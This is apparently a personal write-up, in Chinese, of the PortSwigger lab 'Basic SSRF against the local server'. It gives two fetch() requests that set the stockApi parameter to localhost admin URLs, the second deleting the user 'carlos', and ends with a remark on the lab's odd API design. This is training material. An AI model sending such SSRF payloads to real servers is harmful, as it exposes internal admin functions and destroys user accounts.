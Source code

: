 ```yaml
---
title: Server-side request forgery (SSRF)
description: Server-side request forgery (SSRF)
last_update:
  date: "2025-08-29T08:00:00+08:00"
---
```


## Lab: Basic SSRF against the local server

| Dimension | Description                                                                |
| --------- | -------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/ssrf#ssrf-attacks-against-the-server  |
| Lab       | https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-localhost |

先

```js
fetch(
  "https://0a7d00ac03b61bf181870c00004b0025.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: "stockApi=http://localhost/admin",
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

之後

```js
fetch(
  "https://0a7d00ac03b61bf181870c00004b0025.web-security-academy.net/product/stock",
  {
    headers: {
      "content-type": "application/x-www-form-urlencoded",
    },
    body: `stockApi=${encodeURIComponent("http://localhost/admin/delete?username=carlos")}`,
    method: "POST",
    mode: "cors",
    credentials: "include",
  },
);
```

是說我從來沒看過有人會把 API 設計成這樣 `stockApi=http://stock.weliketoshop.net:8080/product/stock/check?productId=2&storeId=1`，然後 Lab 通關條件是要把 admin 的帳號刪掉，也太狠了吧（？而且只要一個 GET API 就能直接刪帳號，真的是有夠牛掰的設計（x
